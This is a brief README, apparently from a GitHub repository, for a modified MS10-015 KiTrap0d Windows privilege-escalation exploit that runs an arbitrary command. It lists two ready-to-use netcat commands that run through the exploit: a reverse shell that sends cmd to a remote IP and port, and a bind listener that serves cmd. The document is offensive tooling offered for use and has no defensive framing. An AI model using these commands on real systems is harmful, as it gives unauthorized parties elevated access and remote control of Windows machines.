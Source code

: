 # MS10-015_kitrap0d
MS10-015 KiTrap0d (exploitdb-id:11199) modified binary that start any command instead of forking a command prompt. This can be used to start netcat as either tcp reverse shell or listener.

** Reverse shell

vdmallowed nc 10.11.22.33 2869 -e cmd

** Listener

vdmallowed nc -nvlp 2869 -e cmd

